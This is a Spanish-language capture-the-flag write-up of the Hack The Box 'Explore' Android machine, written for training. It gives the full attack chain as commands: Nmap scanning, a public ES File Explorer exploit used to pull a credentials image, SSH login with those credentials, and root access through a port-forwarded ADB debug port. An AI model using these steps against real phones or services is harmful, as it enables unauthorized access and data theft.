 ```yaml
---
title: Explore - Hack The Box
categories: [Android, Linux, ES File Explorer, Android Debug Bridge, ADB, Remote Port Forwarding]
published: true
lang: es
---
```


En esta ocasión vamos a estar resolviendo la máquina _Explore_ de _Hack The Box_. Es una máquina _Android_ de nivel de dificultad fácil en la intrusión, y medio en la escalada de privilegios según figura en la plataforma.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Explore-Hack-The-Box/1.png){:class="blog-image" onclick="expandImage(this)"} 

### [](#header-3)Fase De Reconocimiento

Primeramente vamos a lanzar una _traza ICMP_ para saber si la máquina está activa.

```
ping -c 1 10.10.10.247
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Explore-Hack-The-Box/2.png){:class="blog-image" onclick="expandImage(this)"} 

Una vez comprobamos que la máquina está activa (pues nos devuelve una respuesta), podemos también determinar a que tipo de máquina nos estamos enfrentando en base al valor del _TTL_; en este caso el valor del _TTL_ de la máquina es `63`, por lo que podemos intuir que estamos ante una máquina _Linux_. Recordemos que algunos de los valores referenciales son los siguientes:

| Sistema Operativo (OS) | TTL |
|:-----------------------|:----|
| Linux                  | 64  |
| Windows                | 128 |
| Solaris                | 254 | 

Si nos damos cuenta, en esta ocasión, el valor del _TTL_ es `63` y no `64` como indica la tabla anterior, esto se debe a que en el entorno de máquinas de _Hack The Box_, no nos comunicamos directamente con la máquina a vulnerar, sino que existe un intermediario, por lo que el _TTL_ disminuye en una unidad.

```
ping -c 1 10.10.10.247 -R
``` 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Explore-Hack-The-Box/3.png){:class="blog-image" onclick="expandImage(this)"} 

Posteriormente, vamos a utilizar la herramienta _Nmap_ para determinar que puertos están abiertos, así como identificar la versión y servicios que corren en el activo. Para determinar que puertos están abiertos podemos realizar lo siguiente:

```bash
nmap -p- --open -T5 -v -n 10.10.10.247
```

Y en caso de que el escaneo tarde demasiado en completar, tenemos esta otra alternativa:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.247
```

A continuación se explican los parámetros utilizados en el escaneo de puertos con _Nmap_:

| Parámetro | Explicación |
|:----------|:------------|
| \-p\- | Escanea todo el rango de puertos (65535 en total) |
| \-\-open | Nos indica todos aquellos puertos que están abiertos (o posiblemente abiertos) |
| \-T5 | La plantilla de temporizado nos permite agilizar nuestro escaneo, este valor puede ir desde 0 hasta 5, cabe aclarar que a mayor sea el valor de la plantilla, "generaremos más ruido", pero no pasa nada ¿no? Al fin y al cabo estamos practicando en un entorno controlado y aquí somos todos `White Hat` | 
| \-v | _Verbose_, reporta lo encontrado por consola |
| \-n | No aplicar _resolución DNS_ |
| \-sS | Escaneo _TCP SYN_ |
| \-min-rate | Emitir paquetes no más lentos que \<valor\> por segundo |
| \-vvv | Triple _verbose_, para obtener mayor información por consola |
| \-Pn | No aplicar _host discovery_ |

Una vez hemos detectado los puertos que se encuentran abiertos en el activo, podemos pasar a determinar la versión y servicios que corren bajo estos puertos.

```bash
nmap -sC -sV -p 2222,42135,42607,59777 10.10.10.247
```

A continuación se explican los parámetros utilizados en el escaneo de versiones y servicios con _Nmap_:

| Parámetro | Explicación |
|:----------|:------------|
| \-sC | Scripts básicos de enumeración |
| \-sV | Versión y servicios que corren bajo los puertos encontrados |
| \-p | Especificamos que puertos queremos analizar (los que encontramos abiertos en el paso anterior) |

Basándonos en la información que nos reporta _Nmap_, podemos darnos cuenta que nos encontramos frente a un teléfono móvil, y nuestra primera gran pista para la siguiente fase es el puerto `42135`.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Explore-Hack-The-Box/4.png){:class="blog-image" onclick="expandImage(this)"} 

### [](#header-3)Fase De Explotación

Para explotar el servicio `ES File Explorer`, empezaremos buscando algún exploit que se encuentre en _Exploit Database_, para ello utilizaremos _SearchSploit_ para poder seguir trabajando desde nuestra terminal.

```
searchsploit ES File Explorer
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Explore-Hack-The-Box/5.png){:class="blog-image" onclick="expandImage(this)"} 

En este caso _SearchSploit_ no mostró nada interesante, sin embargo, si revisamos manualmente en la página de _Exploit Database_, podemos encontrar un script que nos permite leer archivos alojados en el servicio de `ES File Explorer` de versión `4.1.9.7.4`, por esta razón es importante no quedarnos conformes únicamente con el primer resultado que encontremos.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Explore-Hack-The-Box/6.png){:class="blog-image" onclick="expandImage(this)"} 

Sin embargo, tampoco será este el script con el que trabajaremos; en esta ocasión estaremos utilizando un proyecto de _GitHub_ del usuario _fs0c131y_, este se llama [ESFileExplorerOpenPortVuln](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln).

Para empezar a trabajar con este repositorio bastará con clonarlo en nuestra máquina.

``` 
git clone https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
```

Una vez lo tengamos descargado, podemos empezar a revisar que información se alojaba en el servicio `ES File Explorer`.

Después de estar listando el contenido almacenado en el teléfono móvil, encontramos entre las fotografías, una llamada `creds`, lo cual nos hace pensar a que se refiere a credenciales con las que posteriormente autenticarnos.

```
python3 poc.py --cmd listPics --ip 10.10.10.247
``` 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Explore-Hack-The-Box/7.png){:class="blog-image" onclick="expandImage(this)"} 

Por lo que procedemos a descargar esta imagen.

```  
python3 poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --ip 10.10.10.247 
``` 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Explore-Hack-The-Box/8.png){:class="blog-image" onclick="expandImage(this)"} 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Explore-Hack-The-Box/9.png){:class="blog-image" onclick="expandImage(this)"} 

Si recordamos, otro servicio que detectamos con _Nmap_, fue el servicio _SSH_ en el puerto `2222`.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Explore-Hack-The-Box/10.png){:class="blog-image" onclick="expandImage(this)"} 

Por lo que procederemos a autenticarnos con las credenciales encontradas:

``` 
ssh kristi@10.10.10.247 -p 2222
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Explore-Hack-The-Box/11.png){:class="blog-image" onclick="expandImage(this)"} 

Una vez dentro de la máquina, procederemos a buscar la primera flag. Por lo que buscaremos el archivo `user.txt` dentro de todo el sistema.

```
echo **/*user.txt*
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Explore-Hack-The-Box/12.png){:class="blog-image" onclick="expandImage(this)"} 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Explore-Hack-The-Box/13.png){:class="blog-image" onclick="expandImage(this)"} 

Podemos ver que en efecto esta es la flag del usuario con bajos privilegios.

Lo más común sería utilizar `find / -name user.txt` (y en este caso, redirigir todo el _stderr_ o _Standard Error_ hacia el `/dev/null`), sin embargo, no conseguimos ningún resultado en esta máquina, por lo que resulta conveniente conocer otros métodos para realizar el mismo proceso.

### [](#header-3)Escalada De Privilegios

Para poder conseguir la siguiente flag (la del usuario con máximos privilegios), tenemos que percatarnos que la máquina tiene más puertos abiertos que los registrados con _Nmap_, a estos se los conoce como _puertos internos_.

``` 
netstat -nlpt
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Explore-Hack-The-Box/14.png){:class="blog-image" onclick="expandImage(this)"} 

Si nos percatamos, la máquina utiliza el puerto `5555` para realizar varios procesos relacionados con _Android_; esto tiene sentido ya que algunos dispositivos _Android_ tienen este puerto abierto para realizar procesos relacionados con el `Android Debug Bridge` o `ADB` por sus siglas en inglés. 

Por lo que, lo que vamos a realizar es un `remote port forwarding`, para posteriormente, con el servicio `ADB` conseguir una shell de máximos privilegios con la que poder migrar al usuario root y conseguir la última flag. 

En caso de no contar con el servicio `ADB` instalado, bastará con realizar lo siguiente:

```
sudo apt install adb
```

Una vez instalado el servicio `ADB`, podemos pasar a conseguir una shell con máximos privilegios dentro del dispositivo.

```
ssh -L 5555:localhost:5555 kristi@10.10.10.247 -p 2222
``` 

```
adb start-server
adb connect localhost:5555
adb devices
adb -s localhost:5555 shell
su root
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Explore-Hack-The-Box/15.png){:class="blog-image" onclick="expandImage(this)"} 

Una vez hemos migrado al usuario root, simplemente tendremos que buscar la respectiva flag.

```
echo **/*root.txt*
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Explore-Hack-The-Box/16.png){:class="blog-image" onclick="expandImage(this)"} 
